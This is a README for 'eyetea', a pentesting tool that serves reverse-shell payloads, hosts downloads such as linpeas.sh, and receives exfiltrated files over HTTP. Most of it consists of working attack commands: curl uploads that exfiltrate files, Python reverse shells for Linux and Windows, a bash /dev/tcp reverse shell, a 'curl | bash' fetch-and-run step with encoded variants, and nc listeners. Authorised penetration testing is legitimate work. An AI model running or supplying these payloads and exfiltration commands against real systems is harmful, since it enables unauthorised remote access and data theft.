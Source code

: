 # eyetea

`eyetea` is a pentesting tool that streamlines data transfer and shell access.

## Dependencies

Currently there are soft dependencies on `rlwrap` and `socat`. Some
capabilities assume their presence, others attempt to check and adjust. In a
future version these dependencies will be more thoroughly checked for / made
optional.

They can be installed on Debian-based distributions through `apt`:

```shell
$ sudo apt install rlwrap socat
```

## Installation

```shell
# virtual environment is recommended
$ python3 -m venv .venv
$ . .venv/bin/activate

# install eyetea from pypi
$ pip install eyetea

# check installation was successful
$ eyetea -h
usage: eyetea [-h] [-a] [-d DOWNLOADS] [-l LOCAL] [-u UPLOADS] host [port]

A pentesting tool that streamlines data transfer and shell access

positional arguments:
  host                  Host the server will listen on
  port                  Port the server will listen on

options:
  -h, --help            show this help message and exit
  -a, --auto            Automatically start a listener for reverse shell payloads
  -d DOWNLOADS, --downloads DOWNLOADS
                        Local path downloads should be served from
  -l LOCAL, --local LOCAL
                        Default host and port used in reverse shell payloads
  -u UPLOADS, --uploads UPLOADS
                        Local path uploads should be stored at
```

## Capabilities

### Data exfiltration

Using the `-u` option of `eyetea`, data can be exfiltrated from a remote host
to the given directory:

```shell
$ tree uploads
uploads

0 directories, 0 files
$ eyetea -u uploads 127.0.0.1 80
```

Files can be exfiltrated using a file upload through an HTTP POST request or a
base64 encoded HTTP GET request to the `/ul` endpoint:

```shell
$ echo test > test.txt

# HTTP POST file upload
$ curl -F 'file=@test.txt' http://127.0.0.1/ul

# HTTP GET
$ curl "http://127.0.0.1/ul?test.txt=$(cat test.txt | base64 -w0 | tr '/+' '_-')"
```

Checking the local host, we can see the file was uploaded and stored in the
given directory:

```shell
$ tree uploads
uploads
└── test.txt

1 directory, 1 file
```

### File downloads

When starting `eyetea`, a downloads directory can be specified with the `-d`
option. Any files in the given directory can be downloaded from the `/dl`
endpoint:

```shell
$ tree
.
├── linux
│   └── linpeas.sh
└── windows
    └── winPEASany.exe
$ eyetea -d downloads 127.0.0.1 80
```

`linpeas.sh` can now be retrieved from `eyetea` from a remote host with the
following command:

```shell
$ wget http://127.0.0.1/dl/linux/linpeas.sh
```

### Shell access

Currently `eyetea` only supports reverse shells and provides the following
payloads:

- Linux
    - `bash`
    - `python3`
- Windows
    - `powershell`
    - `python3`

Shell payloads can be retrieved through the `/sh/r` endpoint. The payload
templates automatically adjust to the given port and will call back to the host
IP address `eyetea` is listening on.

Assuming `eyetea` is started as follows:

```shell
$ eyetea 127.0.0.1 80
```

The following is an example of a Linux Python 3 reverse shell payload that will
call back to `127.0.0.1` on port `4444`:

```shell
$ curl http://127.0.0.1/sh/r/python3/4444
import os
import pty
import socket

sd = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sd.connect(('127.0.0.1', 4444))

fd = sd.fileno()
for i in range(3):
    os.dup2(fd, i)

pty.spawn('/bin/bash')
```

To retrieve the same payload, but targeting Windows:

```shell
$ curl http://127.0.0.1/sh/r/python3:windows/4444
import os
import socket
import subprocess
import threadinging

process = subprocess.Popen(
    ['cmd.exe'],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT)

sd = socket.socket()
sd.connect(('127.0.0.1', 4444))

threading.Thread(
    target=exec,
    args=(
        "while (True): out=os.read(process.stdout.fileno(), 1024); sd.send(out)",
        globals()),
    daemon=True).start()
threading.Thread(
    target=exec,
    args=(
        "while (True): in=sd.recv(1024); os.write(process.stdin.fileno(), in)",
        globals())).start()
```

#### Pastables

The reverse shell endpoint can be prefixed with a pastables endpoint
(`/p<context>`) that will return copy/pastable commands for executing a given
payload in a given context. Three contexts are supported: host, target,
execution. The host context is the command to run on the host to catch the
reverse shell, the target context is the command to run on the target to
execute the reverse shell, and the execution context is the actual payload to
be executed.

Here is an example of thoses contexts for a bash reverse shell payload:

```shell
# the command to run on the host to catch the reverse shell
$ curl http://127.0.0.1/ph/r/sh/bash/4444
rlwrap nc -lvp 4444 -s 127.0.0.1

# the command to run on the target to execute the reverse shell
$ curl http://127.0.0.1/pt/r/sh/bash/4444
curl http://127.0.0.1/sh/r/bash/4444 | bash

# the actual reverse shell payload that gets executed
$ curl http://127.0.0.1/pe/r/sh/bash/4444
bash -i > /dev/tcp/127.0.0.1/4444 0<&1 2>&1
```

The pastables endpoint also provides the ability to optionally base64 or URL
encode a command. For example, to URL encode the target context of a bash
reverse shell payload:

```shell
# `/p<context>:b64` for base64 encoding
$ curl http://127.0.0.1/pt:u/r/sh/bash/4444
curl+http%3A%2F%2F127.0.0.1%2Fsh%2Fr%2Fbash%2F4444+%7C+bash
```

#### Listener

A command to start a listener to catch a given reverse shell payload can be
retrieved using the pastables endpoint as shown in the previous section:

```shell
$ curl http://127.0.0.1/ph/r/sh/bash/4444
rlwrap nc -lvp 4444 -s 127.0.0.1
```

Alternatively, if `eyetea` is started with the `-a` option, whenever a reverse
shell payload is requested from a target, `eyetea` will spawn a new terminal
and execute a listener to catch the requested payload. This is done by
starting a `socat` listener at the requested port before `eyetea` returns the
reverse shell payload to be executed on the target.

